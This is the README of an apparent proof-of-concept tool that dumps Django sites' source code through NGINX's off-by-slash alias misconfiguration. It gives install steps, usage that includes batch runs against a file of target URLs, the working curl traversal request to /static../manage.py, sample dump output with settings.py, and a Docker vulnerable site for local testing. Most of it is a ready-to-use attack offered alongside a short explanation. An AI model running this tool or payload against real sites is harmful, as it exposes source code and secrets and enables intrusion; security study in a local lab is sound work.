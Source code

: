 # PoC: Off-by-slash Django Site Dumper

> A proof of concept to dump Django website's source code affected by NGINX's off-by-slash misconfiguration.

![](demo.gif)


## Installation

```bash
$ git clone https://github.com/adamyordan/offbyslash-django-dumper

$ cd offbyslash-django-dumper

$ pip install -r requirements.txt
```


## Usage
Pass target url as argument
```bash
$ python exploit.py --url http://django-site.com/
```

Or using files containing multiple target urls
```bash
$ cat targets.txt
http://django-site.com/
https://other-affected-site.org/
http://cool-website.me/

$ python exploit.py --file targets.txt
```

The result is available at `dump` directory
```
$ tree dump

dump/
└── http-django-site.com-
    ├── api
    │   ├── urls.py
    │   ├── users.py
    │   └── views.py
    ├── common
    │   └── logger.py
    ├── manage.py
    └── app
        ├── __init__.py
        ├── settings.py
        ├── urls.py
        ├── validate.py
        └── wsgi.py
```

## Explanation

This dumper works by using a local file inclusion vulnerability caused by a misconfiguration when using NGINX to serve 
static files. Equivalent curl command used by this dumper to dump local files is:
```bash
$ curl http://django-site.com/static../manage.py
```

Affected sites will return a response with status `200 OK` and body containing the source code of `manage.py` file.


This local file inclusion is caused by a slight but fatal mistake in Nginx's configuration (_Nginx off-by-slash fail_).
For example, here is a snippet of affected nginx rule:
```
location /static {
    alias /home/app/static/;
}
```

By sending a request to `http://django-site.com/static../manage.py`, Nginx matches the rule and appends the remainder 
to destination `/home/app/static/../manage.py`. Therefore serving the `manage.py` as static file.


This dumper utilize this vulnerability to automatically crawl the source code of Django sites, inferring available
source code files by using static analysis (read: pattern matching!), and (recursively?) expand source codes.


## Example Vulnerable Site

An example website is provided in this repository at directory `vulnerable-site` in Dockerfile format.

```bash
$ cd vulnerable-site
$ docker build -t tmp/vulnsite . && docker run --rm -it -p 8000:80 tmp/vulnsite


$ cd ..
$ python exploit.py --url http://localhost:8000/

[+] START CRAWLING: http://localhost:8000/
[+] downloading: dump/http-localhost-8000-/manage.py
[+] downloading: dump/http-localhost-8000-/app/settings.py
[+] downloading: dump/http-localhost-8000-/app/wsgi.py
[+] downloading: dump/http-localhost-8000-/app/urls.py
[+] FINISHED: http://localhost:8000/


$ tree dump/
dump/
└── http-localhost-8000-
    ├── app
    │   ├── settings.py
    │   ├── urls.py
    │   └── wsgi.py
    └── manage.py
```


## Reference
- [Blackhat USA 2018 presentation slide - by Orange Tsai](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
- [Nginx alias documentation](http://nginx.org/en/docs/http/ngx_http_core_module.html#alias)